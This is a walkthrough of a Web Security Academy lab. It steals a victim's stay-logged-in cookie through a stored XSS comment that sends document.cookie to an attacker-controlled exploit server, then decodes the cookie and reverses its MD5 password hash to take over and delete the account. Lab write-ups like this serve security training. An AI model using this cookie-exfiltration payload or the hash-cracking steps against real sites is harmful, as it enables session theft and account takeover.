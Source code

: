 # Lab Offline password cracking

>This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

>Your credentials: wiener:peter

>Victim's username: carlos

### Analyzing the cookie
`stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw`

The value is b64 encoded and yields `wiener:51dc30ddc473d43a6011e9ebba6ca770` when decoded

where `51dc30ddc473d43a6011e9ebba6ca770` is the hash for `peter` (password)

So we know the cookie is a function of `b64_encode('carlos':MD5(password))`

### Getting Carlos' stay-logged-in cookie
We are told that there is an xss vuln, can we use this to grab the cookies of carlos?

I created a comment on a blog post with the content `<script>alert()</script>`

This executes on page load, lets create a payload that displays the user's cookies... This does the job: `<script>alert(document.cookie)</script>`

Now lets send that cookie to the url of my exploit server: `<script>document.location='https://exploit-ac7f1f731f4b2399c0dc640e010100dc.web-security-academy.net/exploit/'+document.cookie</script>`

Checked my server logs and I got the following entry:

`"GET /exploit/secret=SL8d8jF3bJAZxdEKEe6gqDqlvAIONu1w;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1"`

Our key value is `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`

### Deriving password
b64 decoding the above yields `carlos:26323c16d5f4dabff3bb136f2460a943`

The hash is MD5, copy pasting the value into an "md5 reverser" yields the value `onceuponatime`. This only works because it as an intentionally weak password. In the real world you would attempt to crack the hash on your local machine

Our credentials are `carlos:onceuponatime`

Deleted the account of Carlos, lab solved!